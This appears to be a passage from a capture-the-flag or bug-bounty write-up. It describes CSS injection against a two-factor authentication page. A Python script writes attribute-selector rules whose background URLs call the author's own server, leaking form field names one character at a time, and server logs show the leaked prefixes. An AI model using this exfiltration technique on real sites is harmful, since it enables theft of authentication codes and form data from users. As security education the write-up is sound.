 ```python
#/bin/python3

import string

css = 'css/uni_2fa_style.css'
hostname = 'https://leoastorga.com:3000'

def name(x):
    file = open(css,'w')
    for s in (string.ascii_letters + string.digits + '-_'):
        line = "input[name^='%s'] {background: url('%s/%s');}" % (x+s, hostname, x+s)
        print(line)
        file.write(line+'\n')
    file.close()

if __name__ == "__main__":
    input = input("str: ")
    while(input != 'exit'):
        name(input)
        input = input("str: ")
```

Sent my css url and executing python script to update it, retrieved information about field names. There is a input field for each character!!
```
app_style=https://leoastorga.com:3000/css/uni_2fa_style.css
```
```
3.21.98.146 - - [07/Jun/2020 18:23:56] "GET /css/uni_2fa_style.css HTTP/1.1" 200 -
3.21.98.146 - - [07/Jun/2020 18:23:56] "GET /c HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:24:00] "GET /css/uni_2fa_style.css HTTP/1.1" 200 -
3.21.98.146 - - [07/Jun/2020 18:24:01] "GET /co HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:24:08] "GET /css/uni_2fa_style.css HTTP/1.1" 200 -
3.21.98.146 - - [07/Jun/2020 18:24:08] "GET /cod HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:24:14] "GET /css/uni_2fa_style.css HTTP/1.1" 200 -
3.21.98.146 - - [07/Jun/2020 18:24:15] "GET /code HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:24:21] "GET /css/uni_2fa_style.css HTTP/1.1" 200 -
3.21.98.146 - - [07/Jun/2020 18:24:21] "GET /code_ HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:24:29] "GET /css/uni_2fa_style.css HTTP/1.1" 200 -
3.21.98.146 - - [07/Jun/2020 18:24:30] "GET /code_7 HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:24:30] "GET /code_1 HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:24:30] "GET /code_2 HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:24:30] "GET /code_3 HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:24:30] "GET /code_4 HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:24:30] "GET /code_5 HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:24:30] "GET /code_6 HTTP/1.1" 404 -
```

adding some function to my python script to retrieve the information for each field.

```python
#/bin/python3
import string

css = 'css/uni_2fa_style.css'
hostname = 'https://leoastorga.com:3000'

def name(x):
    file = open(css,'w')
    for s in (string.ascii_letters + string.digits + '-_'):
        line = "input[name^='%s'] {background: url('%s/%s');}" % (x+s, hostname, x+s)
        print(line)
        file.write(line+'\n')
    file.close()

```